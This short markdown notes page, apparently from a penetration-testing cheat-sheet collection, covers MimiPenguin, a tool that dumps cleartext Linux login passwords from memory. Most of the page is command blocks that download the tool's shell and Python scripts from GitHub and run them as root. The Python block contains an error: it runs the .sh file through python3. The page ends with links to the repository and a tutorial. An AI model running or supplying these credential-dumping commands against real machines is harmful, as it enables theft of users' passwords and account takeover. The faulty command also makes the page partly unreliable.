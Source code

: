 # Scripts

## MimiPenguin

### Usage

Download cradle of the shell script then execute it.

```
$ wget https://raw.githubusercontent.com/huntergregal/mimipenguin/refs/heads/master/mimipenguin.sh

$ chmod +x mimipenguin.sh && sudo ./mimipenguin.sh
```

Download cradle of the python script then execute it.

```
$ wget https://raw.githubusercontent.com/huntergregal/mimipenguin/refs/heads/master/mimipenguin.py

$ chmod +x mimipenguin.py && sudo python3 ./mimipenguin.sh
```

---
## References

### Github

- [MimiPenguin](https://github.com/huntergregal/mimipenguin)

### Hacking Articles

- [Hacking Articles: Dump Cleartext Password in Linux PC using MimiPenguin](https://www.hackingarticles.in/dump-cleartext-password-linux-pc-using-mimipenguin/)